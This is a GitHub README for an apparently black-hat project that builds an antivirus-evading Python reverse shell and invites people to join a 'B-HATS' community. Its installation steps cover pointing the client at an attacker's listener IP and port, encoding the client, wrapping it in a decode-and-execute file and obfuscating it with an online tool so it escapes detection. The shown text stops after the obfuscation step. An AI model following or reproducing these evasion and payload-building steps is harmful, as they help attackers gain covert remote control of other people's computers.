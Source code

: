 ------------------------------------------------------------------------------------------------------------------------------------------|<br/>
-Hi everyone 👋, welcome to the RVSP github,<br/>

This project consist of bypassing any anti-virus by using a custom reverse-shell<br/>
coded by myself with the help of my friend patoche890. We decided to share this project to found a community of B-HATS<br/>
To Help us in our project. If you wanna help us, there's a discord link upside and in the top-right panel.<br/>
Go see it 👍<br/>
Enjoy our tool 👋<br/>

------------------------------------------------------------------------------------------------------------------------------------------|<br/>

<b>Installation :<b/>

1) You need to install Python 3.12<br>

2) In cmd run :
```ruby
pip install -r requirements.txt
```
3) Go into ./General-Users/Python-Files/ then edit Client.py :
```ruby
SERVER_HOST = '127.0.0.1' --> Put the Server-Listener IP
SERVER_PORT = 4444 --> Put the Server-Listener PORT
```
4) Run encode.py then paste the full path of your Client.py file<br>

5) Copy the encoded client.py then past it in decode-exec.py here :
```ruby
encoded = (""" HERE """)
```

6) Go to pyobfuscate.com And Obfusc the File like this :<br>
   -Code minifier (1)<br>
   -Var Obfusc (2)<br>

